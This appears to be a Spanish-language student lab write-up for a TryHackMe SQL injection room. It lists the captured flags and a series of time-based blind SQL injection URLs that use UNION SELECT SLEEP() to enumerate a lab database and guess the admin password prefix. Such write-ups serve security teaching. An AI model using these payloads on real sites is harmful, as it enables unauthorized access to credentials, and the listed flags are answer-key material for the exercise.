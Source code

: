 # Práctica 5 - SQLi

* Integrantes:
	- Pedro Méndez Jose Manuel - 315073120
	- Azpeitia García Karyme Ivette - 317340385

## Banderas

Las banderas de THM son las siguientes:


- Task 5:THM{SQL_INJECTION_3840
- Task 6:THM{SQL_INJECTION_9581}
- Task 7:THM{SQL_INJECTION_1093}
- Task 8:THM{SQL_INJECTION_MASTER}


Algunos comandos ocupados para obtener la ultima bandera:

* https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four%';--

* https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name like 'users%';--

* La base era 'sqli_four%', una tabla es 'users' y sus columnas son: id, username, password

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM information_schema.columns where table_schema = 'sqli_four' and table_name = 'users' and COLUMN_NAME like 'password%' and COLUMN_NAME !='id';--

 	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username like 'admin%' ;--

	- Con este input: **https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username like 'admin%';--** obtenemos que admin es un usuario valido

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username = 'admin' and password like '%';--

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 from users where username='admin' and password like '9%';--

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(3),2 FROM users where username='admin' and password like '4961%'; --

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin' and password like '4961%'; --

### Cuenta que realizo el laboratorio.

Username: [Ntory](https://tryhackme.com/p/Ntory)


| ![](img/img1.png)
|:----------------------:|
| Imagen del laboratorio

------
📢⌨️ with ❤️ by [Jose-MPM](https://github.com/Jose-MPM) 😊⌨️ and [Kary-GOD](https://github.com/Kary-AG) 😊⌨️🎁
